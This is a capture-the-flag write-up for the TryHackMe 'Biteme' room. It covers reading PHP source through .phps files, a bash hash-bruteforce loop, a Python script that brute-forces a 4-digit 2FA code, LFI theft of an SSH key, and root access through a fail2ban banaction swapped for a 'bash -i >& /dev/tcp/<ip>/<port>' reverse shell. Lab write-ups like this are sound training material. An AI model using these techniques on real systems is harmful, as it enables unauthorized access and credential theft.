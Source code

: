# Biteme: 

![Contest Date: 12.03.2022](https://img.shields.io/badge/Contest%20Date-12.10.2022-lightgrey.svg)

## Description

### Tryhackme Medium Room

## Summary

The initial scan shows 2 ports opened: 22,80.
The web server has an 'console' endpoint which is a login page ( which is protected with secureimage for bruteforcing ). 
Looking for the source this caught my attention:

```javascript

 function handleSubmit() {
        eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0.1(\'2\').3=\'4\';5.6(\'@7 8 9 a b c d e f g h i... j\');',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,{}))
        return true;
      }

```

The message can be understood as it is, but it can also be unpacked to be more readable.

Which can be unpacked using <a href="https://matthewfl.com/unPacker.html">Unpacker</a> to :

```javascript

 function handleSubmit() 
	{
	        eval(function(p,a,c,k,e,r)
		{
		e=function(c)
			{
			return c.toString(a)
		};
		if(!''.replace(/^/,String))
			{
			while(c--)r[e(c)]=k[c]||e(c);
			k=[function(e)
				{
				return r[e]
			}
			];
			e=function()
				{
				return'\\w+'
			};
			c=1
		};
		while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);
		return p
	}
	('0.1(\'2\').3=\'4\';
	5.6(\'@7 8 9 a b c d e f g h i... j\');
	',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,
		{
	}
	))
	        return true;
	      
}
```


Anyway, the function can also be called in the console of the page, and it logs the message : 

```
@fred I turned on php file syntax highlighting for you to review... jason
```

Which made me search for <a href="https://www.php.net/manual/en/function.highlight-file.php">highlight_file</a> and found this:

```

Many servers are configured to automatically highlight files with a phps extension. For example, example.phps when viewed will show the syntax highlighted source of the file.

```

Using this we can read the source code of the page by going to `http://<ip>/console/index.phps`

This file includes `functions.php` which is used for authentication and can also be read using the same trick `(functions.phps)`.

This file reveals that the hash used for comparison should end in `001` and used a bash command to bruteforce it.

```bash
while IFS= read -r line; do printf '%s' "$line" |md5sum | awk '{print $1}' | grep -E "001$" && echo $line && break ; done < /usr/share/wordlists/rockyou.txt
```
Now we just need a user.

This again reveals other file , `config.php` , which has the source code also readable , and we find the user encoded in hex.

We decode it and get creds to log in.

After logging in, we now need to brute-force the 2FA code, as we see we have unlimited tries.
Created my script for it:
```python3

import requests

s = requests.Session()

cookies = {'PHPSESSID': '<cookie>','user':'<decoded_user>','pwd':'<found_pass>'}
s.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})


for i in range(0000,9999):
        a = '{:d}'.format(i).zfill(4)
        print(a,end='\r')
        r = s.post('http://<ip>/console/mfa.php',cookies=cookies,data='code={}'.format(a))
        if 'Incorrect code' not in r.text:
                #print(r.text)
                print('[+] Found the code: {}'.format(a))
                break

```

After getting a valid code, we now have lfi, using this to get the /ssh/id_rsa file of jason user which has a passphrase.
Using ss2john, and then using john with rockyou.txt we get the passphrase.

## Privesc 

By running `sudo -l` as user `jason` , we can impersonate user `fred` , which can also restart the `fail2ban` service on the machine.

Running 
```bash
find / -user fred 2>/dev/null
```
we find a strange file writable by fred, `/etc/fail2ban/action.d/iptables-multiport.conf`

Using this blog regarding <a href="https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/">fail2ban privesc</a>.

After replacing the `banaction` with our reverse shell `bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1", we have to restart the service, which user fred can do by running `sudo /bin/systemctl restart fail2ban`.

All we have to do now is to trigger the ban action. 

After reading the config file `/etc/fail2ban/jail.local` we see that it is triggered after 3 retries.

Now what's left for us to do is to try to log in using ssh and establish 3 sessions in wich we enter a wrong pass, after that we get the shell as root.
